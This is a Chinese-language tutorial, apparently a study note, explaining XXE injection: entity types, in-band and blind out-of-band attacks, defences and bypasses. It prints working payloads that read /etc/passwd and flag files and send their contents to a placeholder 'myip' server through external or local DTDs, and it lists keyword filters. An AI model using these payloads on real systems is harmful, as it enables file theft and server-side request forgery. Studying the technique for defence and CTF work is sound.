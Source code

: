 XXE原理？利用？防御？绕过？

## 基础知识

XML是一种结构性的标记语言，它用于配置文件、文档格式（如Word...）、图像格式（SVG，EXIF标题）和网络协议（WebDAV，SOAP...）。

XML 文档有自己的一个格式规范，包括XML声明、DTD约束（Document Type Definition 文档类型声明） 、文档元素。

**\* XXE（XML External Entity Injection）全称为 XML 外部实体注入**，关键是**外部实体**的解析。通过外部实体SYSTEM请求本地文件URI，通过某种方式返回本地文件内容就导致了XXE漏洞。

在解析外部实体的过程中，XML解析器可以根据URL中指定的方案（协议）来查询各种网络协议和服务（DNS，FTP，HTTP，SMB...）。

DTD约束中ENTITY定义的实体分为两种，内部实体和**外部实体**（从外部的 dtd 文件中引用）。也分为**通用实体**（用 `&实体名;` 引用的实体，他在DTD 中定义，在 XML 文档中引用）和**参数实体**（使用 `% 实体名`在 DTD 中定义，在 DTD 中使用 `%实体名;` 引用）。

```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY normal "hello">  <!-- 内部通用实体 -->
    <!ENTITY normal SYSTEM "http://xml.org/hhh.dtd">  <!-- 外部通用实体 -->
    <!ENTITY % para SYSTEM "file:///1234.dtd">  <!-- 外部参数实体 -->
    %para;            <!-- 引用参数实体 -->
]>
<message>&normal;</message>
```

**参数实体支持嵌套**定义，但需要注意的是，内层定义的参数实体%需要进行HTML转义，否则会出现解析错误。

```
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY % outside '<!ENTITY &#x25; files SYSTEM "file:///etc/passwd">'>
]>
<message>&normal;</message>
```

## Normal XXE

利用file协议有回显的读取本地敏感文件。

如果文件内容存在特殊字符（如<> & " '）读取会报错，可以使用CDATA包裹起来。需要利用外部参数实体来进行参数拼接。

```
payload:
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>

evil.dtd:
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

## Blind XXE

现在有回显的XXE已经很少了，Blind XXE重点在于如何将数据传输出来。

通过引入外部服务器或者本地dtd文件，可以实现**OOB（out-of-band）信息传递**和通过构造dtd**从错误信息获取数据**。

无论是OOB、还是基于错误的方式，无一例外都需要引入外部DTD文件。

Note：几乎所有XML解析器都不会解析同级参数实体的内容，下面例子会报错。

```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % files SYSTEM "file:///etc/passwd">  
    <!ENTITY % send SYSTEM "http://myip/?a=%files;"> 
    %send;
]>
```

Note：下面例子可能会报错`PEReferences forbidden in internal subset in Entity PEReferences`，指的是参数实体引用(Parameter Entity Reference)，禁止在内部Entity中引用参数实体。

```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % file SYSTEM "file:///etc/passwd">  
    <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">
    %start;
    %send;
]>
```

既然内部不行就**引用外部的DTD（远程服务器DTD或者本地DTD）**。协议本身要求不能在**内部的实体声明中**引用参数实体，但是很多XML解析器并没有很好的执行这个检查，几乎所有XML解析器是能够执行上述例子的。

1、引用服务器DTD：

```
payload:
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/xml.dtd">  
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
    %remote;
    %send;
]>
<message>1234</message>

xml.dtd:
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip:10001/?%file;'>">
%start;
```

2、引用本地DTD：如果服务器禁止访问外网。docbookx.dtd定义了很多参数实体并实现了调用，可以在内部重写一个该dtd文件中含有的参数实体，而此时调用是在外部。

```
payload:
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
<message>1234</message>
```

其中，这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码。

## 防御

1、黑名单过滤用户提交的XML数据，过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC

2、使用语言中推荐的禁用外部实体的方法

## 绕过

XXE 其实也是一种类 SSRF 的攻击手法，因为 SSRF 其实只是一种攻击模式，利用这种攻击模式我们能使用很多的协议以及漏洞进行攻击。

![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002647-e93bbf00-ec17-1.png)

PHP在安装扩展以后还能支持的协议：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002647-e965b74c-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002647-e965b74c-ec17-1.png)

绕过技巧：

- 如果是在 java 中还有一个协议能代替 file 协议 ，那就是 netdoc ，使用方法我会在后面的分析微信的 XXE。

## Ref

https://xz.aliyun.com/t/3357

https://www.freebuf.com/vuls/207639.html